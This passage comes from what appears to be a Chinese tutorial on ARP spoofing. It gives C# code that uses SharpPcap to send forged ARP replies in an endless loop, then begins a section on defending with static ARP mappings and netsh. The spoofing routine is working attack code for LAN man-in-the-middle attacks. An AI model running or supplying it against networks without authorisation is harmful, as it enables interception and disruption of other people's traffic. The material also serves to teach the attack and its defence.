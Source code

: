 最后要实现ARP的欺骗，只要利用SharpPacp提供的发包方法，在线程中疯狂发包就可以了。
```
/// &lt;summary&gt;
/// arp欺骗：对内网PC进行欺骗
/// &lt;/summary&gt;
/// &lt;param name="getwayIP"&gt;&lt;/param&gt;
/// &lt;param name="wrongMac"&gt;&lt;/param&gt;
/// &lt;param name="destIP"&gt;&lt;/param&gt;
/// &lt;param name="destMac"&gt;&lt;/param&gt;
public void StartARPSpoofing(string senderIP, string recipientIP,string senderMAC,string recipientMAC)
{
	mIP = IPTOBYTE(recipientIP);
	sIP = IPTOBYTE(senderIP);
	mMAC = MACTOBYTE(recipientMAC);
	sMAC = MACTOBYTE(senderMAC);

	//构造ARP欺骗包
	packet = getPacket(sIP, mIP, sMAC, mMAC);

	//初始化发包线程
	sendThread = new Thread(SendPack);
	//启动线程
	sendThread.Start();
}
/// &lt;summary&gt;
/// 发送数据
/// &lt;/summary&gt;
public void SendPack()
{
	_device.Open();
	var timeoutDateTime = DateTime.Now + timeout;

	//发送数据包
	while (true)
	{
		_device.SendPacket(packet);
		time++;
		// 通知事件 -更新发包次数
		if (ResolvedEvent != null)
		{
			ResolvedTimeEvent(this, time);
		}
		Thread.Sleep(100);  //线程休眠100ms
	}
}
```
## 正文：如何防御ARP欺骗

ARP欺骗是通过重复应答实现的，那么只需要在本机添加一条静态的ARP映射，这样就不需要询问网关MAC地址了，这种方法只对主机欺骗有效。对于网关欺骗还需要在网关中也添加一条到主机的静态ARP映射。
1.用管理身份运行命令提示符；输入netsh i i show in，查看一下本机有哪些网络连接
```Shell
netsh i i show in
```
